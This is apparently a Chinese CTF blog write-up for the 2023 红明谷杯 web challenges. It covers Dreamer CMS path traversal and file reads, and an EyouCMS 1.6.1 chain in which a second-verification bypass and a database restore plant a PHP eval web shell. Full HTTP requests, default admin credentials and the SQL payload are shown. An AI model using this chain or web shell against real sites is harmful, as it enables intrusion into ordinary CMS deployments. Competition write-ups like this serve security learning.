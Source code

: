 ```yaml
---
title: "2023 红明谷杯 Web Writeup"
date: 2023-04-30T20:03:11+08:00
lastmod: 2023-04-30T20:03:11+08:00
draft: false
author: "X1r0z"

tags: ['ctf']
categories: ['Writeup']

hiddenFromHomePage: false
hiddenFromSearch: false

toc:
  enable: true
math:
  enable: false
lightgallery: false
---
```


2023 红明谷杯

<!--more-->

## 点击签到

[http://eci-2ze1elkmd44j2kaljzts.cloudeci1.ichunqiu.com/0x1337.js](http://eci-2ze1elkmd44j2kaljzts.cloudeci1.ichunqiu.com/0x1337.js)

把 js 改一改

```javascript
var _0x4a12 = `<省略>`;
function _0x3aef(_0x123456) {
    var _0xabcdef = '';
    for (var _0x10 = 0x0; _0x10 < _0x123456.length; _0x10++) {
        _0xabcdef += String.fromCharCode(_0x123456.charCodeAt(_0x10) ^ 0x2a);
    }
    return _0xabcdef;
}

function decrypt() {
    var encodedSecret = _0x4a12;
    return _0x3aef(encodedSecret);
}
```

![image-20230419121639621](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202304191216676.png)

## Dreamer

gitee 地址 [https://gitee.com/isoftforce/dreamer_cms](https://gitee.com/isoftforce/dreamer_cms)

管理员默认账号密码。wangjn/123456

参考 [https://gitee.com/isoftforce/dreamer_cms/issues/I6NP86](https://gitee.com/isoftforce/dreamer_cms/issues/I6NP86)

修改 themePath, 上传压缩包, 然后目录穿越

![image-20230419115830224](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202304191158266.png)

flag 在根目录下

![image-20230419115858792](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202304191158812.png)

## Dreamer_revenge

后台登录以及目录穿越的过程同上

flag 不在根目录下面, 读 `/proc/self/environ` 也没有结果

看下数据库配置文件, 有 mysql 和 redis

![image-20230419120123787](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202304191201811.png)

`/var/lib` 下面发现了对应的目录

![image-20230419120306700](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202304191203720.png)

`/var/lib/redis/`, 一开始没有 dump.rdb, 在后台随便点点然后等几分钟就有了

估计是 redis 自动缓存的问题

查看 `/etc/redis/redis.conf`发现配置了默认备份的策略

```
save 900 1
save 300 10
save 60 10000
```

![image-20230419120440492](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202304191204510.png)

因为可以任意文件读取, flag 就在 rdb 里面, 不过每次出现的位置都不太一样

![image-20230419120546569](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202304191205597.png)

## Eyou

[https://eci-2zecserefv525cst1glk.cloudeci1.ichunqiu.com/login.php](https://eci-2zecserefv525cst1glk.cloudeci1.ichunqiu.com/login.php)

后台账号密码 admin/admin123

版本为 1.6.1, 官网源码: [https://update.eyoucms.com/source/EyouCMS-V1.6.1-UTF8-SP1_0329.zip](https://update.eyoucms.com/source/EyouCMS-V1.6.1-UTF8-SP1_0329.zip)

后台可以改上传的文件后缀, 但是源码限制死了, 只要包含 php 或者不在一个预置的 array 里面就会被 unset

常规的文件上传点和 ueditor 都使用了这个配置, 绕不过去

`\app\admin\controller\System::basic`

![image-20230419122200272](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202304191222323.png)

后台存在模版管理的功能, 进去之后会提示二次安全验证, 可以改前端 js 阻止弹窗, 但是只要一编辑 / 新建文件又会提示 "请勿非法越过二次安全验证", 并且只能够新建 htm/css/js/txt

存在数据库备份还原的功能

![image-20230419122607509](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202304191226559.png)

发现文件并没有限制后缀是 .sql, 只要文件名包含 .sql 就行, 但是会有一些命名格式的限制 (sscanf 函数)

安全中心可以改数据备份路径, 所以考虑把路径换到一个可控的文件夹里面, 然后上传文件之后再去还原数据, 进而执行任意 sql 语句

因为命名格式的限制, 可控文件名的地方就只有模版管理, 但模版管理需要二次验证

Security.php 里面的 `second_verify_edit` 方法验证了原答案, 但是 `second_verify_add` 没有验证

![image-20230419123614253](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202304191236310.png)

构造数据包

```
POST /login.php?m=admin&c=Security&a=second_verify_add&_ajax=1&lang=cn HTTP/1.1
Host: eci-2zecserefv525cst1glk.cloudeci1.ichunqiu.com
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/111.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://eci-2zecserefv525cst1glk.cloudeci1.ichunqiu.com/login.php?s=Admin/login
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Cookie: chkphone=acWxNpxhQpDiAchhNuSnEqyiQuDIO0O0O; home_lang=cn; admin_lang=cn; PHPSESSID=5fd42b46c3c6c0375b160cab41cd7f06;
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 18

&ask=1&answer=1234
```

![image-20230419123743137](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202304191237184.png)

先随便备份一次数据表拿到文件名, 然后抓还原的包拿到 time 的值

到模版管理界面新建文件

```sql
-- ----------------------------------------
-- EyouCms MySQL Data Transfer 
-- 
-- Server         : 127.0.0.1_3306
-- Server Version : 10.3.38-MariaDB-0+deb10u1
-- Host           : 127.0.0.1:3306
-- Database       : eyoucms
-- 
-- Part : #1
-- Version : #v1.6.1
-- Date : 2023-04-19 11:37:28
-- -----------------------------------------

SET FOREIGN_KEY_CHECKS = 0;


-- -----------------------------
-- Table structure for `ey_ad`
-- -----------------------------
create table ey_test(id int, content text);
insert into ey_test values(1, user());
insert into ey_test values(2,version());
select '<?php phpinfo();eval($_REQUEST[1]);?>' into outfile '/var/www/html/shell.php';
```

再去安全中心更改数据库备份路径为 /template, 最后发送恢复备份的数据包

```
POST /login.php?m=admin&c=Tools&a=new_import&time=1681875679&lang=cn HTTP/1.1
Host: eci-2zecserefv525cst1glk.cloudeci1.ichunqiu.com
Content-Length: 0
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://eci-2zecserefv525cst1glk.cloudeci1.ichunqiu.com
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/111.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://eci-2zecserefv525cst1glk.cloudeci1.ichunqiu.com/login.php?m=admin&c=Tools&a=restore&lang=cn
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Cookie: chkphone=acWxNpxhQpDiAchhNuSnEqyiQuDIO0O0O; home_lang=cn; admin_lang=cn; PHPSESSID=5fd42b46c3c6c0375b160cab41cd7f06;
Connection: close

```

![image-20230419124309385](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202304191243459.png)

![image-20230419125017045](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202304191250102.png)

flag 在根目录下

![image-20230419125035954](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202304191250022.png)